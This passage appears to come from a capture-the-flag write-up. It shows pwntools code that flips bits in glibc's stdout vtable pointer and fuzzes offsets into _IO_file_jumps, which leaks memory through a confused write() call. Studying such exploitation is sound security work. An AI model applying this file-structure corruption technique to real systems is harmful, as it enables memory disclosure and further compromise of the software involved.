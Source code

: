 So what offset should we add to this vtable pointer? In challenges of this kind we typically have more control over, for example, its arguments, and that lets us narrow our search, but here we have an extremely broad ‘search space’. I decided to fuzz the vtable pointer to try and see if I could get anything interesting to happen:

```python
def flip(io: tube, off: int, i: int):
	io.send(str(off).encode().ljust(16, b'\0'))
	io.send(str(i).encode().ljust(16, b'\0'))

def convert(io: tube, off: int, original: int, target: int, max_popcount=4):
	diff = original ^ target
	popcount = bin(diff).count('1')
	assert popcount <= max_popcount

	for i in range(8):
		if diff & (1 << i):
			flip(io, off, i)

def fuzz():
	for i in range(0xff):
		io = conn()

		stdout_off = libc.sym._IO_2_1_stdout_ - libc.sym._IO_2_1_stdin_
		stdout_vtable_ptr_off = stdout_off + 216 # &stdout->vtable_ptr - &stdin
		vtable = libc.sym._IO_file_jumps
		target = vtable + i*8

		try:
			convert(io, stdout_vtable_ptr_off, vtable, target)
		except Exception as err:
			io.close()
			continue

		flip(io, 0, 10) # trigger puts()

		log.info(f"i: {i}")
		io.interactive()
		io.close()
		log.info(f"i: {i}")
```

And I found that by adding 30 (x8) to the vtable pointer it just printed a **TON** of memory! Upon further inspection it seems that this makes `puts()` call `_IO_default_uflow`, which in turn calls `_IO_file_finish`, which *I believe* is a function used to close files, and therefore also flushes the stream, printing everything left in its buffer, but due to some argument confusion it ends up using a pointer as the size passed to `write()`, and therefore dumps pretty much all the memory directly after the stream’s buffer.

Recall that setting a stream to be unbuffered sets its buffer pointers to itself: this means that we’ve just leaked everything after stdout in memory! Sadly, this doesn’t work remotely, because read/write syscalls have2-dependent size limit, making it work on my computer running Fedora for some reason (I think it doesn’t even have a limit) but not on the remote server, which is probably running Ubuntu.
